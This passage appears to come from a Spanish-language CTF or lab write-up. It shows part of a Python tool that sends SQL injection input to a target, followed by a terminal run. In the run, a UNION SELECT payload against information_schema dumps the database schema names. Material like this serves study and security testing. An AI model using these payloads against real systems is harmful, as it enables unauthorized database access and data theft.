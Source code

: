 ```python

    return (json.dumps(data_json,indent=4))

if __name__ == '__main__':

#mediante un bucle recibimos la data como input

    while True:
        sqlinyection = input("> ")
        sqlinyection = sqlinyection.strip()
        sqlmodified = recivesql(sqlinyection)
        response_json = sendsql(sqlmodified)

        print(response_json)
```

Ejecutamos el script y realizamos una inyeccion `sql`.

```bash
❯ python3 sql_inject.py
> ttest' union select 1,schema_name,3,4,5 from information_schema.schemata-- -
[
    {
        "id": 1,
        "name": "db_accessadmin",
        "position": "3",
        "email": "4",
        "src": "5"
    },
    {
        "id": 1,
        "name": "db_backupoperator",
        "position": "3",
        "email": "4",
        "src": "5"
    },
    {
        "id": 1,
        "name": "db_datareader",
        "position": "3",
        "email": "4",
        "src": "5"
    },
    {
        "id": 1,
        "name": "db_datawriter",
        "position": "3",
        "email": "4",
        "src": "5"
    },
    {
        "id": 1,
        "name": "db_ddladmin",
        "position": "3",
        "email": "4",
        "src": "5"
    },
    {
        "id": 1,
        "name": "db_denydatareader",
        "position": "3",
        "email": "4",
        "src": "5"
    },
```